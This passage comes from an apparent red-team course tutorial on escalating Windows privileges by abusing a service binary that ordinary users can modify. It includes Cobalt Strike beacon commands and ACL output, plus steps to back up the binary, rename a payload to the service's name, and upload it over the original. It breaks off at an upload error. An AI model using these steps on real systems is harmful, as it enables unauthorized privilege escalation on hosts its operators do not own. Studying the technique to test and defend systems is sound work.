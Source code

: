 ## Weak Service Binary Permissions

This may seem slightly different than the previous vulnerability, but instead of the weak permissions being on the service, it's on the service binary itself.

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services\Service 3.exe
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  Modify, Synchronize
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
Audit  : 
Sddl   : O:BAG:DUD:AI(A;;0x1301bf;;;BU)(A;ID;FA;;;SY)(A;ID;FA;;;BA)(A;ID;0x1200a9;;;BU)(A;ID;0x1200a9;;;AC)(A;ID;0x1200
         a9;;;S-1-15-2-2)
```

The output above shows that `BUILTIN\Users` have `Modify` privileges over `Service3.exe`.

**This allows us to overwrite the binary with something else (make sure you take a backup first):**

```
beacon> download Service 3.exe
[*] started download of C:\Program Files\Vuln Services\Service 3.exe (5120 bytes)
[*] download of Service 3.exe is complete
```

{% hint style="info" %}
Be sure to make a copy of your payload while renaming it to `Service 3.exe`.

```
PS C:\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
```
{% endhint %}

**Then, attempt to upload it:**

```
beacon> upload C:\Payloads\Service 3.exe
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
```

{% hint style="info" %}
You will likely get the following error:

```
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```
